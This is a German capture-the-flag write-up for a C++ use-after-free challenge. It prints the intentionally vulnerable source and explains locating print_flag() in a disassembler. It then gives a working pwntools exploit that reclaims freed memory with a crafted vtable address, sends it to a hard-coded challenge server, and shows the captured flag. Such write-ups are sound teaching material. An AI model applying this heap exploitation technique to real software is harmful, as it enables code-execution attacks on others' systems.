

# userafterfree

Mit dieser challenge gab es den source code mit dazu.

Die wichtigsten Daten von dem Source sind wie folgt:

```cpp
class Vehicle{
  private:
      virtual void print_flag(){
          char* args[3] = {"/bin/cat", "./flag.txt", NULL};
          execve(args[0], args, NULL);
      }
  protected:
      int seats;
      string color;
  public:
      virtual void print_stats(){
          cout << "Meine Farbe ist " << color << " und ich habe " << seats << " Sitzplaetze." << endl;
          cout << "-----------------------------------------------" << endl;
      }
  };

/*
...
*/

int main(int argc, char* argv[]){
    Vehicle* bus = new Bus("blau", 35);
    Vehicle* lkw = new LKW("silber", 2);

    size_t len;
    char* data;
    unsigned int op;
    unsigned int len_stdin;
    while(1){
        cout << "1. Allokieren\n2. Ausgeben\n3. Loeschen\n";
        cin >> op;

        if(op == 1){
            //Ich bin ein cpp Experte!
            cin >> len_stdin;
            data = new char[len_stdin];
            read(STDIN_FILENO, data, len_stdin);
            cout << "Daten allokiert" << endl;                        
        } else if(op == 2){
            bus->print_stats();
            lkw->print_stats();
            delete lkw;
        } else if (op == 3){
            delete bus;
            delete lkw;
            cout << "Fahrzeuge geloescht" << endl;
        }
    }
  return 0;
}
```

Vehicle dient hier als Basis-Klasse fuer LKW und Bus.
Und wie man ebenfalls sehen kann, muss man `print_flag()` aufrufen.

Ebenfalls wird man schnell sehen, dass wenn man 3 zuerst aufruft der Speicher von`lkw` als auch `bus` freigegeben wird.
Was man auch sehen kann ist, dass 1 userinput verlangt welchen man potentiell nutzen kann um die Addresse vom freigegebenen Speicher zu ueberschreiben.

Nun schritt 1 war, "finde die Addresse von `print_flag()`" heraus.
Dafuer habe ich mir einfach in meinem disassembler die Speicheraddresse der funktion ausgeben lassen.


Nun muss nurnoch der die Addresse in Little Endian enkodiert werden und die bytes entsprechend in den 2 sektor geschrieben werden.
Anschliessend die `print_stats()` ausgeben lassen.

Das exploit hierfuer:
```python
from pwn import *

def main():
    payload = "\x78\x3D\x40\x00\x00\x00\x00\x00"
    c = connect('20.126.227.19', 54321)
    #c = process("./ich_mag_busse")
    log.info(c.recvuntil("hen").decode('utf-8'))
    c.sendline('3')
    log.info(c.recvuntil("hen").decode('utf-8'))
    c.sendline('1')
    c.sendline('55')
    c.sendline('')
    log.info(c.recvuntil("hen").decode('utf-8'))
    c.sendline('1')
    c.sendline('55')
    c.sendline(payload)
    log.info(c.recvuntil("hen").decode('utf-8'))
    c.sendline('2')
    log.success(c.recvuntil('}').decode('utf-8'))

main()
```

Und boom! Hier ist die Flagge: `DBH{j3d3r_m46_bu553}`
